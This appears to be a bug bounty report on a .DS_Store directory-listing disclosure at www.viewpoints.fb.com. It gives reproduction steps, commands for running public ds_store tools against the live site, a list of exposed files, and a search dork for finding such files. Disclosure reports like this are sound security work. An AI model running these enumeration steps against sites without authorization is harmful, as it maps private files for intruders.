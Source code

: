 =====
Information Disclosure through .DS_Store in www.viewpoints.fb.com

The website located at www.viewpoints.fb.com has an information disclosure through ".DS_Store" file, accessible to unauthorized external users.
======
MacOS .DS_Store Directory Listing Disclosure Vulnerability
In macOS operating system, .DS_Store is a file that stores custom attributes of its containing folder, such as the position of icons or js files and some configurations . Also list the whole files on directory that has been created as hidden file file, automatically by MacOS. 
This information could provide an attacker with sensitive information including system configuration, installed applications, etc. Properly exploited.
===
Browser: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36]

OS: [Kernel Linux 5.9.0-2parrot1-amd64 x86_64]
1. Go to the Url: https://www.viewpoints.fb.com/.DS_Store and the DS_Store file automatically downloaded
2.  Setup the dsstore.py, then Run the script and see the output 
git clone https://github.com/gehaxelt/Python-dsstore && cd Python-dsstore/ && chmod +x dsstore.py 
python3 ./main.py ~/Downloads/DS_Store 
3. Then the files are listed, well let’s see what happens with the other directories, for example, “images”, navigate to https://www.viewpoints.fb.com/images/.DS_Store and the (.DS_Store) file, again downloads automatically.
4. Run the below script for the .DS_Store see the output
git clone https://github.com/lijiejie/ds_store_exp
cd ds_store_exp
sudo pip2 install -r requirements.txt
python2 ./ds_store_exp.py https://www.viewpoints.fb.com/.DS_Store

Output:
[200] https://www.viewpoints.fb.com/.DS_Store
[200] https://www.viewpoints.fb.com/package.json
[200] https://www.viewpoints.fb.com/sourceimages/.DS_Store
[200] https://www.viewpoints.fb.com/selection.json
[403] https://www.viewpoints.fb.com/js
[200] https://www.viewpoints.fb.com/js/.DS_Store
[403] https://www.viewpoints.fb.com/grunt-settings.js/.DS_Store
[200] https://www.viewpoints.fb.com/grunt-settings.js
[200] https://www.viewpoints.fb.com/Gruntfile.js
[200] https://www.viewpoints.fb.com/package-lock.json
[403] https://www.viewpoints.fb.com/Gruntfile.js/.DS_Store
[403] https://www.viewpoints.fb.com/index.html/.DS_Store
[403] https://www.viewpoints.fb.com/css/.DS_Store
[200] https://www.viewpoints.fb.com/SF_font/.DS_Store
[200] https://www.viewpoints.fb.com/newsletter/.DS_Store
[200] https://www.viewpoints.fb.com/email_confirmation/.DS_Store

4. Then Confirm vía browser the accessibility for any file listed for example “selection.json” , go to https://www.viewpoints.fb.com/selection.json via any browser and see the file.

5. Repeat in whole Directory “Five”, if you can access to any “.DS_Store” you can see the directory listing
The “.DS_Store” files founded on https://www.viewpoints.fb.com/ :
https://www.viewpoints.fb.com/sourceimages/.DS_Store
https://www.viewpoints.fb.com/js/.DS_Store
https://www.viewpoints.fb.com/SF_font/.DS_Store
https://www.viewpoints.fb.com/newsletter/.DS_Store
https://www.viewpoints.fb.com/email_confirmation/.DS_Store

How can the attacker get the file? Easy, with a simple google/bing dork or example “site:www.viewpoints.fb.com filetype(.DS_Store OR DS_Store)” or maybe with a manual test on any directories or image directories adding .DS_Store at the end of the URLs.

See attached pictures 

